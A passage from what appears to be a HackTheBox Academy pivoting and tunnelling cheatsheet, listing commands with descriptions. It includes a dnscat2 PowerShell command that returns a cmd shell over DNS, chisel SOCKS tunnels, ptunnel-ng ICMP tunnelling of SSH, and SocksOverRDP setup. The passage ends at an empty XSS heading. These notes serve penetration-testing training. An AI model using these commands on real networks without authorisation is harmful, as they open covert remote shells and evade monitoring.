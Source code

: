 | `Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd`                                                                                     | PowerShell command used to connect to a specified dnscat2 server using a IP address, domain name and preshared secret. The client will send back a shell connection to the server (`-Exec cmd`).                                                                        |
| `dnscat2> ?`                                                                                                                                                                                                       | Used to list dnscat2 options.                                                                                                                                                                                                                                           |
| `dnscat2> window -i 1`                                                                                                                                                                                             | Used to interact with an established dnscat2 session.                                                                                                                                                                                                                   |
| `./chisel server -v -p 1234 --socks5`                                                                                                                                                                              | Used to start a chisel server in verbose mode listening on port `1234` using SOCKS version 5.                                                                                                                                                                           |
| `./chisel client -v 10.129.202.64:1234 socks`                                                                                                                                                                      | Used to connect to a chisel server at the specified IP address & port using socks.                                                                                                                                                                                      |
| `git clone https://github.com/utoni/ptunnel-ng.git`                                                                                                                                                                | Clones the ptunnel-ng project GitHub repository.                                                                                                                                                                                                                        |
| `sudo ./autogen.sh`                                                                                                                                                                                                | Used to run the autogen.sh shell script that will build the necessary ptunnel-ng files.                                                                                                                                                                                 |
| `sudo ./ptunnel-ng -r10.129.202.64 -R22`                                                                                                                                                                           | Used to start the ptunnel-ng server on the specified IP address (`-r`) and corresponding port (`-R22`).                                                                                                                                                                 |
| `sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22`                                                                                                                                                    | Used to connect to a specified ptunnel-ng server through local port 2222 (`-l2222`).                                                                                                                                                                                    |
| `ssh -p2222 -lubuntu 127.0.0.1`                                                                                                                                                                                    | SSH command used to connect to an SSH server through a local port. This can be used to tunnel SSH traffic through an ICMP tunnel.                                                                                                                                       |
| `regsvr32.exe SocksOverRDP-Plugin.dll`                                                                                                                                                                             | Windows-based command used to register the SocksOverRDP-PLugin.dll.                                                                                                                                                                                                     |
| `netstat -antb \|findstr 1080`                                                                                                                                                                                     | Windows-based command used to list TCP network connections listening on port 1080.                                                                                                                                                                                      |

[Download Cheatsheet](https://academy.hackthebox.com/module/cheatsheet/158)



## XSS

| Code                                                                                          | Description                       |